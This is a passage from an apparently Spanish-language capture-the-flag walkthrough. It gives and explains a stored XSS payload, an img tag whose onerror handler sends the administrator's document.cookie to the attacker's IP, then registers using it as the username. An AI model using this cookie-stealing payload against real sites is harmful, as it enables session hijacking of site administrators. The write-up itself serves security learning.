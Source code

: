 El payload que utilizaremos será el siguiente.

```
<img src="#" onerror="this.src='http://10.10.14.191/'+document.cookie" />
```

---

**¿Que hace este payload?**

*Cuando al administrador de la página web se le envíen nuestros datos, este payload viajará como el nombre de usuario.*

*Si no está bien sanitizado, en vez de mostrar `<img src="#" onerror="this.src='http://10.10.14.191/'+document.cookie" />` como texto plano, el navegador podría interpretarlo como `HTML` e intentar cargar una imagen ubicada en '#'. Sin embargo, como '#' no es una ruta válida y no hay ningún archivo de imagen con ese nombre, se producirá un error, lo que activará el evento `onerror`, que establecerá como ubicación de la imagen la dirección de nuestra máquina con sus cookies como ruta.*

*De esta manera el navegador hara una solicitud a nuestra direccion "enviándonos" la cookie de sesión del administrador.*

---

Nos registramos y logueamos con el payload como `username`.

![register-payload](../../img/Cat/Register-payload.png)
